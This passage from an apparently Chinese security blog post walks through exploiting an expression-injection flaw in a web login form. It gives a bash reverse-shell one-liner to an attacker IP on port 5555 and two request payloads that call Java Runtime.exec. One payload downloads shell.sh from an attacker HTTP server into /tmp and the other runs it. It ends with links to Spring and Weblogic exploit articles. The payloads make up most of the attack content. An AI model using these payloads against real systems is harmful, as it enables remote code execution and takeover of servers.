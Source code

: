     
    
    bash -i >& /dev/tcp/192.168.1.2/5555 0>&1

用python起一个http服务，并构造payload下载shell.sh文件保存在/tmp/目录下，名称为1

    
    
    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/usr/bin/wget -qO /tmp/1 http://192.168.1.2:8000/shell.sh")]=111&password=111&repeated=111&Password=111

![](https://gitee.com/fuli009/images/raw/master/public/20210817102007.png)

nc打开端口监听再构造payload进行命令执行即可收到反弹shell

    
    
    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("/bin/bash /tmp/1")]=111&password=111&repeated=111&Password=111

![](https://gitee.com/fuli009/images/raw/master/public/20210817102008.png)

![](https://gitee.com/fuli009/images/raw/master/public/20210817102009.png)

  

  

**![](https://gitee.com/fuli009/images/raw/master/public/20210817102010.png)**

  

 **推荐阅读：**

 **  
**

 **[干货 |
Spring系列CVE以及POC编写](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498027&idx=1&sn=6800b032fb7d44edf98b8a95187a3d73&chksm=ec1cac14db6b25022aecbca4b54b9e76f8c5de9a448d0fcc4f36b7ef45daaa25b32829c24b6b&scene=21#wechat_redirect)  
**

  

[ **Java SpringBoot
相关漏洞学习资料**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247489578&idx=1&sn=58fdad1d375727cd855ca0ee44fb836e&chksm=ec1f4d15db68c40336717c9919341df75b20eda75f094fe838f5c1be06abaee8c9742035259d&scene=21#wechat_redirect)  

  

[ **干货 |
最全的Weblogic漏洞复现**](http://mp.weixin.qq.com/s?__biz=MzI5MDU1NDk2MA==&mid=2247498979&idx=1&sn=254f5fd3cde4cf3a4bcdcce58c1029f1&chksm=ec1ca9dcdb6b20ca20ea2838ddaf3ba17fdf239fb057db49ac866bf4d94f70518915801fcc6d&scene=21#wechat_redirect)  

  

 **点赞，转发，在看**

  

原创投稿作者：mathwizard
